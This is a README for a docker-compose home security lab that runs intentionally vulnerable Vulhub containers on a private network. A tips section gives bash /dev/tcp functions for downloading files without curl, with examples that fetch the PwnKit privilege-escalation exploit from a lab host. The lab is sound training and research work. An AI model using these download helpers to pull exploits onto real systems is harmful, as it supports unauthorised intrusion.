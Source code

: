 ## Intro
This docker-compose setup allows you to easily spin up a security testing/research environment.

This was done for our presentation "Do It Yourself: Building a Security Lab At Home" in January 2021.

The main purpose is to create a separate network and containers that can be referenced by name.

This also allows you to have multiple containers listening on the same port to avoid confusing port mappings.

## Updates
package for vul-linux & win10 ok.
but vagrant up for win10 still not working got WinRM issue as below.  
![Alt text](./images/Screenshot%20from%202023-08-20%2006-08-09.png "a title")

## Usage

Simply clone this repository and run:

``
docker-compose up -d
``

Be certain to add the following to your /etc/hosts file:

```
# Vulhub lab
10.1.1.5        shellshock
10.1.1.6        jenkins
10.1.1.7        phpmyadmin
10.1.1.8        mysql
10.1.1.9        telnetserver
10.1.1.10       kali
10.1.1.11       solr-log4j

```

Modify for your own needs! Thanks to Vulhub: https://github.com/vulhub/vulhub

## Tips

To use bash to retrieve a file via HTTP create this function (just copy and paste this into a terminal):

```
_get ()
{
  IFS=/ read proto z host query <<< "$1"
  exec 3< /dev/tcp/$host/80
  {
    echo GET /$query HTTP/1.1
    echo connection: close
    echo host: $host
    echo
  } >&3 
  sed '1,/^$/d' <&3 > $(basename $1)
}

```

For binary files:

```
__curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

Then you can use it like this:

```$ _get http://10.1.1.14/PwnKit```

```$ __curl http://10.1.1.14/PwnKit```
